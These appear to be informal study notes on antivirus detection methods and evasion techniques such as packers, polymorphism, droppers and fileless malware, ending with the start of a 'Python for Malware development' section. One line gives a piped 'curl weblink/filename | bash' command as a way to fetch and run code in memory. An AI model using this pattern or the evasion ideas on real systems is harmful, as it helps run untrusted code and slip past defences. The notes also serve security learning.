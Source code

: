 ## Anti-Virus(AV) Software's

- A security tool used to identify, scan , prevent and remove malicious software from our device
- Type of *Antivirus
- Signature-Based Detection
-The antivirus software checks file against the database pattern (signature) , will check and scan.**Ineffective against new or modified malware (zero-day threats), Means UPDATE is MUST**

- Heuristic-Bases Detection
-Analyzes **The behavior** of the program to identify suspicious activities that could indicate the presence of malware.
if a certain program trys to access or modify, to grant permission, copy file etc..
-But this may lead to trigger for alert to innocent activity.
- Sandboxing
-Runs suspicious programs in a controlled, isolated environment (a sand box)  to observe behavior 

## Anti-Virus(AV) Evasion techniques

- There are some Techniques to Evade not Being Detected by AV
  1. Packers
-Packer compresses an executable to make smaller in size
 2. Cryptor's/encoders
-They change the encryption algorithm/ it will locks
 3. Polymorphic malware
 - polymorphic malware changes it's code with wach infection, makig each instance of the malware unique. Like Hiv Aids ;)
 - 
4. Downloader & Dropper

- Many kinds of malware use programs called droppers or downloaders to learn about a system before installing the real malware. 
- Some of these droppers scope out a system first to avoid triggering security alerts when they download and install the real payload.

Fileless Malware

- Fileless malware operates entirely in memory, without writing any files to disk. 
    
- Since traditional antivirus software often focuses on scanning files, fileless malware can evade detection by avoiding the file system altogether.
- we use the key word 'curl' to download and  and display the html / code but if we type curl  weblink/filename  | bash


#### Python for Malware development
- let's see how we create some malwares based on algorithms.

- There are so many kinds of malware purpose
- Delete files
- Encrypt files
- Corrupt files
    
- ….
    